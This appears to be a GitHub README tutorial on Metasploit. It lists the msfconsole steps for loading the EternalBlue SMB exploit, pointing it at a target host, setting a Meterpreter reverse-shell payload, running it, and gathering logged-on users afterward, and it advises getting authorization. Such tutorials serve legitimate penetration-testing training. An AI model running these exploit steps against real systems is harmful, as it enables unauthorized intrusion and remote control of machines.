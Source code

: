 # Metasploit Tutorial

## 🚀 Introduction

**Metasploit** is one of the most popular penetration testing frameworks, allowing you to execute a variety of exploits against remote targets. It contains a massive collection of exploits, payloads, and auxiliary modules for ethical hacking purposes.

## Author

Made by [Ghaithrb](https://github.com/ghaithrb)

## 📦 Features

- **Exploit Modules**: Use predefined exploits to attack vulnerable systems.
- **Payloads**: Run code on the target machine after exploiting a vulnerability.
- **Post-Exploitation**: Collect valuable data from compromised machines.
- **Auxiliary Modules**: Perform scans, fuzzers, and other operations.

## 🔧 How to Use Metasploit

### Starting Metasploit

```bash
msfconsole
```

#### Search for Exploits

```bash
search smb
```

#### Use an Exploit

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

#### Set the Target

```bash
set RHOSTS 192.168.1.10
```

#### Set Payload

```bash
set PAYLOAD windows/x64/meterpreter/reverse_tcp
```

#### Run the Exploit

```bash
exploit
```

#### Post-Exploitation

After exploiting a system, you can run post-exploitation modules to gather more information.

```bash
post/windows/gather/enum_logged_on_users
```

## 🛡️ Best Practices

- Always ensure you have authorization before using Metasploit on a target.
- Combine Metasploit with other tools like Nmap for comprehensive penetration testing.
- Regularly update Metasploit to stay current with the latest exploits.

## 📄 License

This tutorial is licensed under the MIT License. See the LICENSE file for details.
